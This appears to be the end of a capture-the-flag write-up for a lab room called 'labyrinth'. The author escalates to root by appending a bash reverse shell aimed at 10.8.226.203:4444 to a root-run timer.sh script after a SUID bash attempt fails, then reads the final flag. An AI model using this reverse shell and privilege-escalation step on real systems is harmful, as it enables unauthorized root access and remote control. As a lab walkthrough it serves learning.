 Basically we use the root power of this script to make bash a SUID (as we can)
and now we can just...

`/bin/bash -p`

Ok that did not work for me So i decided to just try the shell too

```bash
echo '
#!/bin/bash
bash -i >& /dev/tcp/10.8.226.203/4444 0>&1
' >> timer.sh //port 4444
```

Now we wait...(gotta be patient there)

```bash
id
uid=0(root) gid=0(root) groups=0(root)
root@labyrinth:~#

root@labyrinth:~# cat da_king_flek.txt
```

Flag #4

```bash
cat da_king_flek.txt
fL4G{escaped_the_labyrinth}
```

That room was just cool
